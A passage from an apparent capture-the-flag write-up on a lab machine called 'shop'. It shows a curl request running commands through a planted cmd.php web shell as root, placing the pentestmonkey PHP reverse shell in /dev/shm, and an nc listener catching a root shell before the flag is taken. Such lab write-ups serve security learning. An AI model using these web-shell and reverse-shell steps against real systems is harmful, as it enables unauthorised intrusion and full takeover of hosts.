 From here we can use curl to execute system commands in the URL:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/shop]
└─$ curl http://localhost:65000/cmd.php?cmd=id
uid=0(root) gid=0(root) grupos=0(root)
{% endhighlight %}
leveraging this RCE to get a tcp reverse shell with URL encoded commands didn't work
so I chose to paste in the pentestmonkey php reverse shell code to file called
reverse-shell.php in the `/dev/shm` directory. 

Setting up a listener and catching the connection:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/shop]
└─$ nc -nlvp 6666
listening on [any] 6666 ...
connect to [192.168.56.224] from (UNKNOWN) [192.168.56.254] 46270
Linux Shop 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
 03:45:42 up  3:15,  1 user,  load average: 0,00, 0,00, 0,00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
bart     pts/0    192.168.56.224   03:19   45.00s  0.15s  0.15s -bash
uid=0(root) gid=0(root) grupos=0(root)
/bin/sh: 0: can't access tty; job control turned off
{% endhighlight %}

From here I got the root flag and submitted it for the points. Hooray for points. 

